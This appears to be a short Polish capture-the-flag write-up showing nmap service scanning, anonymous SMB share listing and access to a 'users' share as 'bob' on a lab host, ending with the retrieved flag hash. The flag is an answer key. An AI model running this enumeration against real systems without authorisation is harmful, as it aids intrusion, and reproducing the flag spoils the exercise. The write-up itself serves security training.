 ## 🔎 Recon – Nmap skan z wykryciem usług

```

nmap -sV -sC 10.129.105.57

```

  

### Wykryte usługi:

- `21/tcp`: FTP (anonimowy dostęp do `/pub`)

- `22/tcp`: SSH

- `80/tcp`: Apache (strona z `phpinfo()`)

- `139, 445/tcp`: Samba (SMB)

- `2323/tcp`: Telnet

- `8080/tcp`: Apache Tomcat

  

---

  

## 📂 Sprawdzenie udziałów SMB

```

smbclient -N -L \\10.129.105.57

```

### Wynik:

```

Sharename       Type      Comment

---------       ----      -------

print$          Disk      Printer Drivers

users           Disk

IPC$            IPC       IPC Service

```

  

---

  

## 🔐 Połączenie do folderu `users` jako użytkownik `bob`

```

smbclient -U bob \\10.129.105.57\users

```

**Po zalogowaniu:**

```

ls

```

Wynik:

```

flag/

bob/

```

  

---

  

## 📁 Przejście do folderu `flag` i pobranie flagi

```

cd flag

ls

```

  

Wynik:

```

flag.txt

```

  

```

get flag.txt

```

  

Plik `flag.txt` pobrany.

  

---

  

## 📄 Odczyt zawartości flagi

```

cat flag.txt

```

  

**Flaga:**

```

dceece590f3284c3866305eb2473d099

```

## Zapis zawartości tmux do pliku

```
tmux capture-pane -pS -1000 > zapis.txt
```

